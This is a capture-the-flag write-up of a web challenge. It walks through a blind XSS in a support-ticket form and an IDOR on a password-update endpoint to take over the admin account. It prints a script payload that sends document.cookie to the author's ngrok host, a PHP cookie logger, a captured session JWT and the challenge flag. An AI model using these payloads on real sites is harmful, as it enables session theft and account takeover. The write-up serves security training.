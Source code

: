 ## Description
"The secret vault used by the Longhir's planet council, Kryptos, contains some very sensitive state secrets that Virgil and Ramona are after to prove the injustice performed by the commission. Ulysses performed an initial recon at their request and found a support portal for the vault. Can you take a look if you can infiltrate this system?"

Since this is a web challenge so first thing I did is bruteforcing the directories with dirsearch
![dirs](https://user-images.githubusercontent.com/43896992/169715190-b00eb4de-88c4-4694-9639-41721f1d927b.png)

in the login page the default credentials doesn't work, it gives me "INVALID USERNAME OR PASSWORD!" message.

I found a ticket submitting page in the index of the site for reporting issues to the admin
![index](https://user-images.githubusercontent.com/43896992/169715342-651fabfc-2db9-4cfe-bc72-51aa8fd8e5e0.png)

when I type anything it gives me a message says an admin will review my ticket, but unfortunately it doesn't give me any feedback.

first thing that came into my head is it vulnerable to blind xss? can I seal the admin's cookies?, so I started to build the environment for blind xss exploitation to forward the result to my own server.

I made a get.php file that saves the cookies into a jar.txt file
```
<?php
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt' , 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fclose($fp);
?>
```
then I made a local php server on port 80 with ```php -S localhost:80``` and I tunneled it out to receive the connection from the vulnerable site with ngrok.

I crafted a blind xss payload ```<script> var i = new Image(); i.src="http://MYSITE.ngrok.io/get.php?q="+document.cookie; </script>```
and I acctually recieved a connection on my server

![ngrok](https://user-images.githubusercontent.com/43896992/169716208-7b2ae392-77a7-47c1-b570-8f41fd3bb0be.png)


The jar.txt file wasn't really useful because I already got the admin's cookies from the request but at least it saved it in a file for me
![jwt](https://user-images.githubusercontent.com/43896992/169716399-46748c7f-0fc3-4780-aa88-2c88df50ed0a.png)

**Cookies:**```session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI4NzEzMjB9.iTg4YroMbHGEaFrDZH8k5t4m9hHPN2nEkRQW31HMrvs```

it's a jwt, so I tried to decode it in [jwt.io](https://jwt.io) and it turned out a moderator's cookie
![jwt io](https://user-images.githubusercontent.com/43896992/169716515-b5057b23-3770-4764-8359-10f67058d88a.png)

I injected it and now I'm a moderator
![mod](https://user-images.githubusercontent.com/43896992/169717290-e723c934-478f-4f6b-b7aa-b92819509a7b.png)

but there's nothing useful in the page, I'm not fully privileged; so, I need to escalate my user to admin not just a moderator.

Since this is another user with another session I thought I may now access the 302 pages and this attempt succeeded and it's now 200, I tried to access ```/settings``` and I found a password changing page, now I can grab the endpoint which is responsible for password changing.
![pass](https://user-images.githubusercontent.com/43896992/169717505-081da6de-4ad2-4800-bf10-2e75b1df838e.png)
![modpass](https://user-images.githubusercontent.com/43896992/169717566-408439ef-c4fb-4542-8fed-1e0be60d0671.png)

the endpoint is ```/api/users/update``` with POST method.

I tried to change the jwt ```username``` value to ```admin``` and use it as a cookie but it didn't work
![Ajwt](https://user-images.githubusercontent.com/43896992/169718032-ec4136af-3ede-4255-9404-4ff587bbdf96.png)

then I tried to use it in the paswword resetting request and it didn't work too, it was a poor idea in the first place ..
![Fadmin](https://user-images.githubusercontent.com/43896992/169718195-cab5bb47-ced1-4786-b000-86a708c54d55.png)

I found a parameter ```uid``` that have value ```100```.
mostly in web apps the admin's uid is 1 or 0 so I thought about idor attack, and if it wasn't 1,0 I would bruteforce it with the intruder until I find the admin's uid

So I changed the value of the ```uid``` to ```1``` and it fortunately worked
![adminspass](https://user-images.githubusercontent.com/43896992/169717743-9496fcfc-458d-4e6d-b8a2-768186821608.png)

Then I logged with the new password in the ```/login``` page and I finally got the flag

![flag](https://user-images.githubusercontent.com/43896992/169717857-c7672396-c9ed-48db-bb52-d2cf2062d701.png)
<sub>it was in the ```/admin``` page but it was unaccessable unless you're the admin</sub>
### ```HTB{x55_4nd_id0rs_ar3_fun!!}```
